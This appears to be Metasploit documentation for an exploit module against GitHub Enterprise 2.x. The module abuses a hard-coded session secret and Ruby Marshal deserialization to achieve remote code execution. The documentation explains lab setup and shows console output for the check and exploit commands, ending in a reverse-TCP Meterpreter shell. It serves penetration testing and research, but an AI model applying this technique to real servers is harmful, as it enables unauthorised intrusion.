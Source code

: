 This module exploits two security issues found in Github Enterprise 2. The first problem is
that the session management uses a hard-coded secret value, which can be abused to sign a
serialized malicious object. The second problem is that the serialized string is passed to
a ```Marshal.load``` API call, which deserializes the malicious object, and executes it. A
malicious attacker can take advantage of these problems to achieve remote code execution.

According to exablue.de, this RCE was reported to GitHub, and the researcher was rewarded
$18,000 total.

## Vulnerable Application

For testing purposes, you can download a Github Enterprise image from the following location:

[https://enterprise.github.com/releases/](https://enterprise.github.com/releases/)

This module was specifically tested against version 2.8.0, which can be downloaded here:

[https://github-enterprise.s3.amazonaws.com/esx/releases/github-enterprise-2.8.0.ova](https://github-enterprise.s3.amazonaws.com/esx/releases/github-enterprise-2.8.0.ova)

Before you install the image, you must have a valid key. Start from here:

[https://enterprise.github.com/sn-trial](https://enterprise.github.com/sn-trial)

After signing up for a trial, you should receive an e-mail. The email will instruct you to access
your portal account. In there, you can download your github-enterprise.ghl file, which is a key
to complete installing your Github Enterprise system.

## Using github_enterprise_secret

The module consists of two features: the ```check``` command and the ```exploit``` command.

The ```check``` command determines if the host is vulnerable or not by extracting the hash of the
cookie, and then attempts to create the same hash using the default secret key. If the two match,
it means the module can tamper the cookie, and that makes the server vulnerable to deserialization.

```
msf exploit(github_enterprise_secret) > check

[*] Found cookie value: _gh_manage=BAh7B0kiD3Nlc3Npb25faWQGOgZFVEkiRTViZTAwNjg4NDViYmYzNWQzMGZl%0AZTRiYWY2YmU4Mzg2MzQ2NjFjODcxYTAyZDZlZjA0YTQ2MWIzNDBiY2VkMGIG%0AOwBGSSIPY3NyZi50b2tlbgY7AFRJIjFZZ0I5ckVkbWhwclpmNWF5RmVia3Zv%0AQzVKMUVoVUxlRWNEbjRYbHplb2R3PQY7AEY%3D%0A--ab0866fc61ea036b1e83cd65b92c2b6cc5b001ed;, checking to see if it can be tampered...
[*] Data: BAh7B0kiD3Nlc3Npb25faWQGOgZFVEkiRTViZTAwNjg4NDViYmYzNWQzMGZlZTRiYWY2YmU4Mzg2MzQ2NjFjODcxYTAyZDZlZjA0YTQ2MWIzNDBiY2VkMGIGOwBGSSIPY3NyZi50b2tlbgY7AFRJIjFZZ0I5ckVkbWhwclpmNWF5RmVia3ZvQzVKMUVoVUxlRWNEbjRYbHplb2R3PQY7AEY=
[*] Extracted HMAC: ab0866fc61ea036b1e83cd65b92c2b6cc5b001ed
[*] Expected HMAC: ab0866fc61ea036b1e83cd65b92c2b6cc5b001ed
[*] The HMACs match, which means you can sign and tamper the cookie.
[+] 192.168.146.201:8443 The target is vulnerable.
msf exploit(github_enterprise_secret) > 
```

If vulnerable, the ```exploit``` command will attempt to gain access of the system:

```
msf exploit(github_enterprise_secret) > exploit

[*] Started reverse TCP handler on 192.168.146.1:4444 
[*] Serialized Ruby stager
[*] Sending serialized Ruby stager...
[*] Transmitting intermediate stager for over-sized stage...(105 bytes)
[*] Sending stage (1495599 bytes) to 192.168.146.201
[*] Meterpreter session 2 opened (192.168.146.1:4444 -> 192.168.146.201:52454) at 2017-03-23 10:11:17 -0500
[+] Deleted /tmp/htBDuK.bin
[+] Deleted /tmp/kXgpK.bin
[*] Connection timed out

meterpreter >
```
